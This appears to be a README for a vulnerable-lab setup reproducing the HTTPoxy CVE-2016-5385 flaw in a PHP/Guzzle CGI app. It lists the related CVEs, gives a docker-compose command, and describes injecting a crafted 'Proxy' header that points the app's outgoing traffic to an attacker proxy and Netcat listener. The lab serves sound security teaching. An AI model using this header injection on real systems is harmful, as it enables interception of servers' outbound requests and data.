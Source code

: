 # HTTPoxy CGI application vulnerability (CVE-2016-5385)

[中文版本(Chinese version)](README.zh-cn.md)

httpoxy is a set of vulnerabilities that affect application code running in CGI, or CGI-like environments. It comes down to a simple namespace conflict:

- RFC 3875 (CGI) puts the HTTP Proxy header from a request into the environment variables as `HTTP_PROXY`
- `HTTP_PROXY` is a popular environment variable used to configure an outgoing proxy

This leads to a remotely exploitable vulnerability. See <https://httpoxy.org> for further principles description.

CVE-2016-5385 is one of CVEs that assign for HTTPoxy, here are the full CVEs list:

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

## Vulnerable environment

Execute following command to start a Web application depending on PHP 5.6.23 and GuzzleHttp 6.2.0.

```
docker-compose up -d
```

This [Web page](www/index.php) get its origin IP address at `http://httpbin.org/get`:

![](1.png)

At this moment, hostname IP is equal to original IP, no HTTP proxy.

## Exploit

Send a request with a crafted HTTP header that contains a available HTTP proxy address: `Proxy: http://*.*.122.65:8888/`:

![](2.png)

It is obvious that the original address in the response has become the IP address of the proxy server.

Start a Netcat server at the `*.*.122.65` instead of HTTP proxy, we can capture the original request:

![](3.png)
